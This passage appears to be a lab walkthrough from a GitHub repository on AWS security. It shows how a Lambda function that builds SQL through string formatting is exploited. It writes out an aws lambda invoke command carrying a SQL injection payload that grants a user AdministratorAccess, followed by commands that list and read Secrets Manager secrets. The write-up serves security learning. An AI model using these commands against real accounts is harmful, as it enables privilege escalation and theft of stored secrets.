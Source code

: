 ```python
    }
    print(handler(payload, 'uselessinfo'))
```

This Lambda handler takes two arguments upon invocation, user_name and policy_names. 
Using string formatting to dynamically build a SQL statement without the use of prepared statements opens up the application logic to risk of SQL injection attacks. Directly using user input that is controllable by an attacker without any form of sanitization drastically increases that risk. 

We can leverage this to terminate the following SQL statement because the value of policy is attacker-controlled, removing the requirement of public = 'True' and invoke the lambda function in order to escalate our privileges. 

The following command will send a SQL injection payload to the lambda function:
```
aws --profile robo --region REGION lambda invoke --function-name func-name --cli-binary-format raw-in-base64-out --payload '{"policy_names": ["AdministratorAccess'"'"' --"], "user_name": "USERNAME"}' out.txt
```

![image](https://github.com/sabarish20/Security-in-AWS/assets/85452305/77ad8313-163b-401e-816d-747de14a9dfb)

Now that Bilbo is an admin, use credentials for that user to list secrets from `secretsmanager`.

This command will list all the secrets in secretsmanager:
```
aws --profile bilbo --region us-east-1 secretsmanager list-secrets
```

This command will get the value for a specific secret:
```
aws --profile bilbo --region us-east-1 secretsmanager get-secret-value --secret-id [ARN_OF_TARGET_SECRET]
```
![image](https://github.com/sabarish20/Security-in-AWS/assets/85452305/1b57c314-77cf-4dd5-92a4-1baacc890cdb)

